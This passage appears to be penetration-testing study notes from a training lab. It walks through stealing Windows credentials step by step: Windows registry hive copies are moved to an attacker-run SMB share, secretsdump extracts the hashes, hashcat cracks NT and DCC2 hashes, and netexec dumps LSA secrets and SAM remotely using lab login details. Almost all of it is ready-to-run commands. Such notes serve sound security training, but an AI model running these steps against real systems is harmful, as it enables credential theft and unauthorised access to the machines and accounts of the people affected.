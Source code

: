 ```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

#### Moving hive copies to share

```bash
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```

### Dumping hashes with secretsdump

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

```bash
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

### Cracking hashes with Hashcat

#### Running Hashcat against NT hashes

```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### DCC2 hashes

As mentioned previously, hklm\security contains cached domain logon information, specifically in the form of DCC2 hashes. These are local, hashed copies of network credential hashes. An example is:

**inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25**

```bash
hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

### Remote dumping & LSA secrets considerations

#### Dumping LSA secrets remotely

```bash
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Dumping SAM Remotely

```bash
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
